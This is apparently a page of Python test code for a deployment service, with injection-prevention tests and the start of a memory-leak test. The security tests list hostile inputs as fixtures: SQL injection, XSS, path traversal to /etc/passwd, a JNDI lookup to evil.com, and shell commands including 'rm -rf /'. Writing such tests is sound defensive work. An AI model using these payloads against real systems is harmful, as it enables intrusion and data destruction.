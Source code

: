 #### **4. Security Tests**
```python
# tests/security/test_injection_prevention.py
import pytest
from src.api.validators import validate_deployment_name
from src.database.queries import get_deployment_by_name

@pytest.mark.security
class TestInjectionPrevention:
    """Test injection attack prevention."""
    
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE deployments; --",
        "' OR '1'='1",
        "<script>alert('xss')</script>",
        "../../../etc/passwd",
        "${jndi:ldap://evil.com/a}",
        "\x00null\x00byte",
        "||calc||",
        "; cat /etc/passwd"
    ])
    def test_sql_injection_prevention(self, malicious_input):
        """Test SQL injection prevention."""
        # Validation should reject malicious input
        with pytest.raises(ValueError):
            validate_deployment_name(malicious_input)
    
    @pytest.mark.asyncio
    async def test_command_injection_prevention(self):
        """Test command injection prevention."""
        from src.utils.shell import safe_run_command
        
        # Should sanitize dangerous commands
        result = await safe_run_command(
            "echo", 
            "test; rm -rf /"  # Malicious argument
        )
        
        # Command should be sanitized
        assert "rm" not in result.stdout
        assert result.returncode == 0
```

#### **5. Memory Tests**
```python
# tests/memory/test_memory_leaks.py
import pytest
import gc
import tracemalloc
from memory_profiler import profile

@pytest.mark.memory
class TestMemoryManagement:
    """Test for memory leaks and efficiency."""
    
    def test_connection_pool_memory(self):
        """Test connection pool doesn't leak memory."""
        tracemalloc.start()
        
        # Create and destroy many connections
        for _ in range(1000):
            pool = ConnectionPool(max_size=10)
            connections = [pool.acquire() for _ in range(10)]
            for conn in connections:
```